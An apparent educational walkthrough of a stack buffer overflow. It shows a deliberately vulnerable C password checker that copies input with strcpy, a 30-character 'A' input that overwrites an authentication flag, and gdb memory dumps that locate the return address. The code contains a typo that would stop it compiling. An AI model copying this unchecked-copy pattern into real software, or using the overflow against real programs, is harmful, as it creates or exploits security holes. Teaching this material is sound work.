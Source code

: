 ```c
/*
 *Source code for debugging  
 */
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>  

int check_authentication(char* password) {  
  int auth_flag = 0;  
  char password_buffer[16];  
    
  strcpy(password_buffer, password);  
    
  if(strcmp(passsword_buffer, "brillig") == 0)  
    auth_flag = 1;  
  if(strcmp(password_buffer, "outgrabe") == 0)  
   auth_flag = 1;  
  
  return auth_flag;
}

int main(int argc, char* argv[]) {
  if(argc <2) {
    printf("Usage : %s <password>\n", argv[0]);
    exit(0);
}
  
  if(check_authentication(argv[1])) {
    printf("\n-=-=-=-=-=-=-=-=-=-\n");
    printf("Access Granted.\n");
    printf("-=-=-=-=-=-=-=-=-=-\n");
  }
  else {
   printf("\nAccess Denied.\n");
  }
}
```

This program is so simple and looks like granting access only the case of
entering "brillig" or "outgrabe" as an argument.  
But by entering 30 times of 'A', we can exploit this program.  
Let's take a look why this happens.  
```
/*
 * compiled with -fno-stack-protector option
 * set breakpoint at strcpy(password_buffer, password);
 * (gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
 */
 
(gdb) print &auth_flag  
$1 = (int *) 0x7fffffffdf3c  
(gdb) print &password_buffer  
$2 = (char (*)[16]) 0x7fffffffdf20  
```
By debugging the program, we can find the address of auth_flag is 28 bytes after than password_buffer.    
Since strcpy() does not check boundary, if we give more than 28 bytes(not too much)length of any string as argument, auth_flag will be set to nonzero.
```
/*
 * set breakpoint at return auth_flag;
 * (gdb) c  //abbreviation of continue
 */
(gdb) x/16xw password_buffer
0x7fffffffdf20 : 0x41414141 0x41414141  0x41414141  0x41414141
0x7fffffffdf30 : 0x41414141 0x41414141  0x41414141  0x00004141
0x7fffffffdf40 : 0xffffdf60 0x00007fff  0x5555481e  0x00005555
0x7fffffffdf50 : 0xffffe048 0x00007fff  0x00000000  0x00000002
(gdb) x/u &auth_flag
0x7fffffffdf3c: 16705 // 0x4141 in hex
```
Variable auth_flag is located at 0x7ffffffffdf3c~f(in bold) and it is overwritten to 16705.   
Since this machine is little endian, rightmost 41 is 0x7fffffffdf3c.    
So access will be granted, because any nonzero number is considered as true. This is basic concept of stack overflow.  
  
Here, we have to focus the value of 0x7fffffffdf48~f(in italic).  
```
(gdb) disass main
...
0x0000555555554819 <+72>:  call 0x55555555476a <check_authentication>
0x000055555555481e <+77>:  test eax,eax
...
```
_0x000055555555481e_ is return adress when function check_authentication is end.
We will discuss about stack frame in next document.
